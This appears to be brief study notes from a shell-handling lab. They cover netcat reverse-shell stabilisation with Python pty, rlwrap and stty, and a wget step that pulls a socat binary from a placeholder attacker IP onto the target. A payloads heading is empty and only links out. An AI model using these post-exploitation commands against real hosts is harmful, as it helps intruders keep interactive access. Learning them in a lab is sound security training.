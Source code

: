 # What the Shell 
## Netcat Shell Stabilisation  
### Technique 1: Python  
command:  
```
step 1: python -c 'import pty;pty.spawn("/bin/bash")'  

step 2: export TERM=xterm  

step 3: stty raw -echo; fg  
```
### Technique 2: rlwrap  
command: 
```
rlwrap nc -lvnp <port>  //background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell
```
### Technique 3: Socat  

command： 
```
sudo python3 -m http.server 80
wget <LOCAL-IP>/socat -O /tmp/socat  //download socat static compiled binary in target 

stty -a //note rows and columns in own terminal 

stty rows number   //set in shell 
stty cols numver   //set in shell 
```
### Socat Encrypted Shells 
### Common Shell Payloads 
command:  
```

```
[PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)